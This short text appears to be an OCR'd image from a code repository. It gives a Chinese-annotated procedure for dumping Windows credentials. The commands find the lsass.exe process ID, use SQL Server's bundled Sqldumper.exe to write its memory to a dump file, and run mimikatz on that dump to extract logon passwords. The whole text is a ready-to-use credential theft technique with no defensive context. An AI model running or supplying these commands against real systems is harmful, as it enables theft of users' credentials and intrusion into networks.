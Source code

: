 	位置C:\Program Files\Microsoft SQL Server\number\Shared
	>tasklist /svc | findstr lsass.exe  查看lsass.exe 的PID号
	>Sqldumper.exe ProcessID PID 0x01100  导出mdmp文件
	>mimikatz.exe "sekurlsa::minidump SQLDmpr0001.mdmp" "sekurlsa::logonPasswords full" exit